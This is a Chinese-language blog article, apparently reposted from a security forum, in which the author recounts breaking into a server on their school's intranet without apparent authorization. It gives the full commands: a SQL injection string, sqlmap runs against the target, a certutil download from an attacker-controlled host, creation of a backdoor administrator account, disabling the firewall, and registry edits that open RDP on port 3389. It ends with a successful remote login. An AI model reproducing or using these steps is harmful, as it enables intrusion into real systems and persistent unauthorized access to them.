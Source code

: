 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ERcXY8sQZv-0se3uNTE6JQ)

### **声明：本文仅限于技术讨论与分享，严禁用于非法途径。若读者因此作出任何危害网络安全行为后果自负，与本号及原作者无关。**

### 前言  

备考的时候偶然点了进了本校内网的某个站点 , 停下了复习 (直接拔剑)

![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LfeNrpIWzpibicofZoRBXF35TO5mSHeqplWicaOW9kyqBxMwP9gwaUtP8jWok6ic5dtCzUz0VJ8cnOX9A/640?wx_fmt=jpeg)

测试到注入

```
http://url/newdetail.aspx?id=11999' or 1=1 --
```

直接 Sqlmap 一把过 , 连 waf 都没得 (狗头)  

随便看看

```
python  sqlmap.py -u "http://url/newdetail.aspx?id=119" --batch --dbs
python  sqlmap.py -u "http://url/newdetail.aspx?id=119" --batch -users
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LfeNrpIWzpibicofZoRBXF35TwS6PvxJ611iasjxib6Bh6eYexnhDwoBiaIFrfzUSBGofg25ZDxsjmgnIw/640?wx_fmt=jpeg)

**DBMS**  

sqlserver 2005

![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LfeNrpIWzpibicofZoRBXF35TF2ic6S6gL9xgib6OciaNjpTHz88MJRaBuGCWvdy38ypuJ6zQkyrzXl0xg/640?wx_fmt=jpeg)

**whoami**  

在 windows 中`nt authority system` 是内置的系统管理账户

![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LfeNrpIWzpibicofZoRBXF35Tslic0I8fFtIfr68PaLcQCuuhhxTK6sHXfJbesdsw7o3SP0FHFFczfjg/640?wx_fmt=jpeg)

查看下目录`chdir`

![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LfeNrpIWzpibicofZoRBXF35TxgOPwhjx4T8ImKztAcwg5a6ykazbOXS0aqksLl3x6cnpfSBWmLhEXQ/640?wx_fmt=jpeg)

`Dir c:\`

![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LfeNrpIWzpibicofZoRBXF35TyRzTT9lk03GOGhSVo5TmdyicHEjhq9oLue2HEAdqlWZN4UqKibfyJZEw/640?wx_fmt=jpeg)

**OS 版本**

Microsoft(R) Windows(R) Server 2003, Enterprise Edition

![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LfeNrpIWzpibicofZoRBXF35Tt0uibfk9Fy39iaIGhyf7OpEBekPGykSHNdcn1P2nPCHNrJIAukRU9Ojg/640?wx_fmt=jpeg)

**ipconfig**

![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LfeNrpIWzpibicofZoRBXF35T3yTLeKRBudibS7bIpqELDwalGqD9RicVQicK6o3CRnymiausmcVm2WV6dw/640?wx_fmt=jpeg)

服务器端存在 certutil 等于是决定测试一下命令

vps

```
ping wt070h.dnslog.cn
certutil.exe -urlcache -split -f http://funny_ip/amazing1x
```

打一下  

```
#新建用户
net user amazingadmin123 amazing.123456 /add
#赋予权限
net localgroup Administrators amazingadmin123 /add
#激活用户
net user amazingadmin123 /active:yes
#关闭防火墙
netsh firewall set opmode mode=disable
#开启默认设置 netsh firewall reset
```

发现回显  

![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LfeNrpIWzpibicofZoRBXF35TiaHOodGG997Oxq25cGrJoMhHZYnicrkQuL9kQaITR5fQflj4DR1Y0Qrw/640?wx_fmt=jpeg)

奈何网站路径是中文的 , sqlmap 写木马的话会乱码 , 找了找解决办法无果

![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LfeNrpIWzpibicofZoRBXF35TUia8Icyn7O47SM3TEggibj2fhcUepHfJLc6iaYAPA1L2SpRPJWylbzolQ/640?wx_fmt=jpeg)

看看环境变量

![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LfeNrpIWzpibicofZoRBXF35T4ibo0Be7ZZu2QUclzCqW0UyrPjmdq7tA9ibRE90dhZ6h2qr2KUj9mopw/640?wx_fmt=jpeg)

**Nmap 看看端口**

因为尝试远程连接的时候出了一些问题，起初不知道是什么原因所以打算看看

![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LfeNrpIWzpibicofZoRBXF35Txl700A0Ok1tyz5YqtIfttWyDZEnlyt20nPgia6UZbnr5790tsQ9zRRA/640?wx_fmt=jpeg)

**尝试远程连接 3389**

新建用户

```
echo Windows Registry Editor Version 5.00 >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server] >>3389.reg
echo "fDenyTSConnections"=dword:00000000 >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp] >>3389.reg 
echo "ortNumber"=dword:00000D3D >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp] >>3389.reg
echo "PortNumber"=dword:00000D3D >>3389.reg
regedit /s 3389.reg
```

通过注册表开启 3389 端口  

```
echo Windows Registry Editor Version 5.00 >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server] >>3389.reg
echo "fDenyTSConnections"=dword:00000000 >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp] >>3389.reg 
echo "ortNumber"=dword:00000D3D >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp] >>3389.reg
echo "PortNumber"=dword:00000D3D >>3389.reg
regedit /s 3389.reg
```

相关记录

![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LfeNrpIWzpibicofZoRBXF35TNH8XfckaIdiba214TOs5n5IbTCyj8gibUwAnsI5cLsQ0JejPoouzV9rg/640?wx_fmt=jpeg)

相关记录  

![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LfeNrpIWzpibicofZoRBXF35Td0pmrDgEzlnBcqgY6ibEOHRscTHUPLLRiaNK5Q4Z3VCWuzkHsEpA7UcA/640?wx_fmt=jpeg)

这个过程连续尝试了两三次都没有成功，也没找到原因，服务还关了，只能先考试等管理员开机了

![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LfeNrpIWzpibicofZoRBXF35THiaw9gHUjSwWoEQaafNF97hB6Nkg7iaBZdx1OoByvIVNNXQibJLcZuAOQ/640?wx_fmt=jpeg)

考完试第三天网站上线了，再试试新建用户……  

原来是安全策略的问题，不能使用简单地密码，新建用户的时候用了个复杂的密码就行了

**远程连接✔️**

![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LfeNrpIWzpibicofZoRBXF35TGTqrlHXpohrqcBU9mqqIy6oPm4SDdMsNk0e6qaFTIZQuKFPRkSg6Kg/640?wx_fmt=jpeg)

配置加载中……

![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LfeNrpIWzpibicofZoRBXF35TJwCp4sZIicHHhbtW0Leic7VKGAdZSpxNWuj8EPIdEfC6iaLS4SO5gd1Rg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LfeNrpIWzpibicofZoRBXF35TM2KGkqmgDPEcuNnWMlDWkfCt45jicFBZicRsJcP8iaATGVJrptmPZ62XQ/640?wx_fmt=jpeg)

点到即止！  

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)

**推荐阅读：**

[**SRC 逻辑漏洞挖掘详解以及思路和技巧**](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247488715&idx=1&sn=da788c044e2340cb4573739fa1d2237a&chksm=ec1f41f4db68c8e2dd526dca90aab30747edfa0bab8c038209f6fc1fa377064cf3d25d1bd875&scene=21#wechat_redirect)  

[**SRC 漏洞挖掘经验 + 技巧篇**](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247485949&idx=1&sn=3f08c681660acecc0bbe996619df66ed&chksm=ec1f5cc2db68d5d4782eec77fa36ad329815f0b70ff34c3c0a893e3b107d2c262e8b37e85d2a&scene=21#wechat_redirect)  

[**干货 | 登录点测试的 Tips**](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247490332&idx=1&sn=9058e68d0fb3ce5f73fbdb5c93cbfbe1&chksm=ec1f4e23db68c735484c85d92f1a87876906f5f02f5d4b3e31a6a75db54ac3e4f3c139a44dd6&scene=21#wechat_redirect)  

[**漏洞挖掘 | 单点登录的网站通过 Referer 盗取用户授权**](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247488147&idx=1&sn=35b5f0c4d9ab286b107cb40807152784&chksm=ec1f47acdb68ceba0fb1f61042c6ec64ae614dcbdcbff5c1e4f327b73e8bb06aac69f45dcd3a&scene=21#wechat_redirect)  

[![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibHHibNbEpsAMia19jkGuuz9tTIfiauo7fjdWicOTGhPibiat3Kt90m1icJc9VoX8KbdFsB6plzmBCTjGDibQ/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247495879&idx=1&sn=ab05215b31822bee4461255e9fac3237&chksm=ec1ca5f8db6b2cee91b02eb6a70e5ed979c6e46ef40b548f8467affed9bc9de476854bc5a41a&scene=21#wechat_redirect)

**点赞，转发，在看**

文章来源：先知社区

作者：何止

如有侵权，请联系删除

![](https://mmbiz.qpic.cn/mmbiz_gif/Uq8QfeuvouibQiaEkicNSzLStibHWxDSDpKeBqxDe6QMdr7M5ld84NFX0Q5HoNEedaMZeibI6cKE55jiaLMf9APuY0pA/640?wx_fmt=gif)